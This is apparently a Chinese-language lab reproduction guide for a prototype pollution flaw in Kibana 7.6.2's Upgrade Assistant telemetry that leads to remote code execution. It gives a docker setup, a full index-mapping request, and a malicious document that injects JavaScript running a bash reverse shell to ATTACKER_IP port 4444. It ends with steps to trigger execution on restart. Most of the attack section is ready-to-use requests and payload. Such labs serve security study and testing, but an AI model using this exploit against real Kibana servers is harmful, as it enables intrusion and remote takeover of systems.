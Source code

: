 # Kibana 7.6.2 upgrade-assistant-telemetry Prototype Pollution Leads to RCE

Kibana 是 Elasticsearch 的开源数据可视化仪表盘工具。

7.6.3 版本之前的 Kibana 存在 Upgrade Assistant 功能中的原型污染漏洞。通过设置 constructor.prototype.sourceURL 值，可以实现任意代码执行。可以通过直接向 Elasticsearch 发送数据，或通过 Kibana 提交查询来触发漏洞。两种方法均会导致 Kibana 读取被污染的原型。

代码执行可能在 Kibana 重启后或数据收集（时间未知）发生时触发。成功执行后，必须删除 .kibana_1 索引才能使 Kibana 成功重启。一旦收到回调，请求会被清理，允许 Kibana 在下一次尝试中成功重启。

参考:

- https://hackerone.com/reports/852613

## 环境搭建

使用 Docker 启动 Kibana 7.6.2 和 Elasticsearch 7.6.2：

```bash
docker compose up -d
```

环境启动后，Kibana 将监听在 `http://your-ip:5601`。

## 漏洞复现

原型污染漏洞发生在 Upgrade Assistant 的 `upgrade-assistant-telemetry` 功能中。通过提供特制的 `upgrade-assistant-telemetry` 保存对象即可利用该漏洞。

1. 更新 Kibana：映射修改 Kibana 映射以允许自定义的 upgrade-assistant-telemetry 文档。必须提供完整映射，避免 Kibana 因映射验证错误而拒绝启动。

    ```json
    PUT /.kibana_1/_mappings
    {
    "properties": {
        "upgrade-assistant-telemetry": {
        "properties": {
            "constructor": {
            "properties": {
                "prototype": {
                "properties": {
                    "sourceURL": {
                    "type": "text",
                    "fields": {
                        "keyword": {
                        "type": "keyword",
                        "ignore_above": 256
                        }
                    }
                    }
                }
                }
            }
            },
            "features": {
            "properties": {
                "deprecation_logging": {
                "properties": {
                    "enabled": {
                    "type": "boolean",
                    "null_value": true
                    }
                }
                }
            }
            },
            "ui_open": {
            "properties": {
                "cluster": {
                "type": "long",
                "null_value": 0
                },
                "indices": {
                "type": "long",
                "null_value": 0
                },
                "overview": {
                "type": "long",
                "null_value": 0
                }
            }
            },
            "ui_reindex": {
            "properties": {
                "close": {
                "type": "long",
                "null_value": 0
                },
                "open": {
                "type": "long",
                "null_value": 0
                },
                "start": {
                "type": "long",
                "null_value": 0
                },
                "stop": {
                "type": "long",
                "null_value": 0
                }
            }
            }
        }
        }
    }
    }
    ```

2. 插入恶意文档：使用以下请求插入恶意的telemetry状态文档

    ```json
    PUT /.kibana_1/_doc/upgrade-assistant-telemetry:upgrade-assistant-telemetry
    {
        "upgrade-assistant-telemetry" : {
        "ui_open.overview" : 1,
        "ui_open.cluster" : 1,
        "ui_open.indices" : 1,
        "constructor.prototype.sourceURL": "\u2028\u2029\nglobal.process.mainModule.require('child_process').exec('/bin/bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1')"
        },
        "type" : "upgrade-assistant-telemetry",
        "updated_at" : "2020-04-17T20:47:40.800Z"
    }
    ```

    ![update kibana mappings](1.png)

    P.S. 注意: 该 payload 会污染原型，注入用于生成反向 shell 的 JavaScript 代码，代码可自定义，例如`...exec('touch /tmp/rce')`。

3. 触发代码执行：等待数据收集发生，或者手动重启 Kibana ( `docker restart KIBANA_CONTAINER_ID` or `docker compose restart`). Kibana 会尝试启动，执行 payload 触发代码执行。

    ![index doc status](2.png)
